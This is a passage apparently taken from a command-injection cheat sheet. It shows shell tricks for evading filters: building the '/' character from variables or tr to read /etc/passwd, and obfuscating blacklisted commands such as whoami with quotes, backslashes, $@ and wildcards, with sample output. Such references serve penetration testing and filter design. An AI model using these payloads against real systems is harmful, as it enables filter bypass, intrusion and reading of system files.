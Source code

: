 ```powershell
swissky@crashlab:~$ echo ${HOME:0:1}
/

swissky@crashlab:~$ cat ${HOME:0:1}etc${HOME:0:1}passwd
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ echo . | tr '!-0' '"-1'
/

swissky@crashlab:~$ tr '!-0' '"-1' <<< .
/

swissky@crashlab:~$ printf %.1s $HOME
/

swissky@crashlab:~$ cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
root:x:0:0:root:/root:/bin/bash
```

### Bypass Blacklisted words

#### Bypass with single quote

```powershell
w'h'o'am'i
```

#### Bypass with double quote

```powershell
w"h"o"am"i
```

#### Bypass with backslash and slash

```powershell
w\ho\am\i
/\b\i\n/////s\h
```

#### Bypass with $@

```powershell
who$@ami

echo $0
-> /usr/bin/zsh
echo whoami|$0
```

#### Bypass with variable expansion

```powershell
/???/??t /???/p??s??

test=/ehhh/hmtc/pahhh/hmsswd
cat ${test//hhh\/hm/}
cat ${test//hh??hm/}
```
